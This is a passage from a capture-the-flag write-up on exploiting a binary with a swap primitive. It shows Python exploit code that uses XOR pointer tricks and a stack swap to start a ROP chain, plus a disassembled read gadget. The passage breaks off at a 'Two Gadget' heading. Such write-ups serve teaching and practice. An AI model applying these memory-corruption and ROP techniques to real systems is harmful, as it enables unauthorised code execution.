 ```python  
xor = (DONOR_ADR & 0xff) # ^ char  ^ (GOAL_ADR & 0xff) # IMMEDIATE_2  
xor_ptr = BASE^xor # &buffer^IMMEDIATE_2  
xor_up = base_diff(xor_ptr)  
woogie_boogie(xor_up, up) # *(&buffer^IMMEDIATE_2) = *(&buffer^IMMEDIATE_1);  
create_char(xor) # buffer = IMMEDIATE_2  
woogie_boogie(B_STACK, 0) # *(&buffer^IMMEDIATE_2) ^= &buffer^IMMEDIATE_2

woogie_boogie(xor_up, 0)

assert (GOAL_ADR & 0xff) == leaker() & 0xff, "xor magic failed"

cl()  
```

### ROP

now we only need to find a GADGET and a DONOR that is within one byte of
change. Luckily have exactly such a gadget in `readint+0x1f` (`0x101248`),
even luckier there is a old `readint+0x57` (`0x101280`) address on stack, that
we can use.

read gadget

```        assembly  
       00101248 ba 10 00        MOV        EDX,0x10  
                00 00  
       0010124d 48 89 c6        MOV        RSI,RAX  
       00101250 bf 00 00        MOV        EDI,0x0  
                00 00  
       00101255 e8 96 fe        CALL       <EXTERNAL>::read  
```

> Note: There is also a gadget at `0x101250` that can be used on newer kernels
> (I use arch btw), basically the third parameters RDX is a ptr, therefore 48
> bits, older kernel don't like read calls that can read way to much
> information (e.g. the REMOTE). Therefore we need to use `0x101248` instead,
> which only allows 0x10 Bytes (so a TWO GADGET).

so we can edit our exploit

```python  
# woogie_boogie(xor_up, 0)  
# assert (GOAL_ADR & 0xff) == leaker() & 0xff, "xor magic failed"

SWAP_ROP = base_diff(0x7fffffffe518, 0x7fffffffe530)  
woogie_boogie(SWAP_ROP, xor_up)  
sl(cyclic(0x10))  
```

and by sheer luck we get a  ROP Chain starting at `aaaa`.

> Note: even if this wasn't the case we could have played around with swap and
> basically written 0x10 bytes anywhere.

### Two Gadget
